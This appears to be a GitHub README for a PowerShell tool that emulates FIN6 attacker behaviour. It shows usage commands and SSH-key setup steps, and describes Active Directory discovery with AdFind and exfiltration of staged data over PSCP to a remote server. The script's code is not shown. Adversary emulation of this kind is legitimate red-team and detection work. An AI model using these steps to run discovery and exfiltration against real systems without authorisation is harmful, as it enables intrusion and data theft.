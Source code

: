# Automation Script for FIN6 Adversary Emulation

Summary: Powershell Script to Automate Adversary Emulation of FIN6 APT.

```
Usage Examples:
    .\FIN6_automation.ps1 -u kali -ip XXX.XXX.XXX.XXX -pkey [path_to_private_key].ppk

    -u     Username of the Remote Server.
    -ip    IP Address of the Remote Server.
    -pkey  The path to the private key file in .ppk format.
```

## Features:
- Discover and Staging using AdFind
- Exfiltration using PSCP (PuTTY Secure Copy Protocol)

## Blog
For demonstration, please visit [**FIN6 Adversary Emulation - Phase 1**](https://kengentenerende.github.io/posts/FIN6-Adversary-Emulation-Phase-1/)

## Screeenshots
![image](https://github.com/kengentenerende/Automation-FIN6-Adversary-Emulation/assets/46080752/b1ca41a3-d0fd-4aab-b174-8debf16b193d)
![image](https://github.com/kengentenerende/Automation-FIN6-Adversary-Emulation/assets/46080752/5a0b3803-605d-487b-a923-174173f7901b)
![image](https://github.com/kengentenerende/Automation-FIN6-Adversary-Emulation/assets/46080752/3d1bc168-2068-4ae7-99f7-4cd415064962)

## Pre-requisite
- [Open-SSH](https://github.com/PowerShell/Win32-OpenSSH)

## Required Installation

#### Step 1: Generate SSH Key Pairs using Putty

- Grab the last version of the [Putty](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) Windows Installer executable package and install it onto your Target Machine.
- Open PuTTygen and proceed with Keys generation:
- Save both keys (Public and Private Keys) to a secure location on your computer.
  - ![image](https://github.com/kengentenerende/Automation-FIN6-Adversary-Emulation/assets/46080752/bb16249a-0267-4460-9124-2079ba4d09b1)
- Select and copy Public Key into a text file which will be later pasted into the OpenSSH authorized_keys file on the remote server.
  - ![image](https://github.com/kengentenerende/Automation-FIN6-Adversary-Emulation/assets/46080752/d6ffb213-8f64-4b51-9d81-3606f30d41ba)

#### Step 2: Generate SSH Key Pairs using ssh-keygen
- Open a new PowerShell window and generate a new SSH key-pair with the `ssh-keygen` command. By default, the public and private keys will be placed in the `%USERPROFILE%/.ssh/` directory. The public key file we are interested in is named `id_rsa.pub`. Save the 2 generated Public Keys in a single file.
  - ![image](https://github.com/kengentenerende/Automation-FIN6-Adversary-Emulation/assets/46080752/2ad76b58-2987-4489-abb1-c1c154a57ff4)
  
#### Step 3: Passwordless SSH Connectivity to Remote Linux Device
-   Run the following powershell script [SSH_paswordless_login](https://github.com/kengentenerende/Automation-FIN6-Adversary-Emulation/blob/main/_script/SSH_paswordless_login.ps1). This will copy the contents of the id_rsa.pub public key to a remote Linux device

```
Usage Examples:
  .\SSH_paswordless_login.ps1 -u kali -ip XXX.XXX.XXX.XXX -akey [path_to_public_key]

    -u     Username of the Remote Server.
    -ip    IP Address of the Remote Server.
    -akey  The path to the Public Key Pair.
```
  - ![image](https://github.com/kengentenerende/Automation-FIN6-Adversary-Emulation/assets/46080752/cecc7338-bdc3-4108-a7ad-4280739bc371)
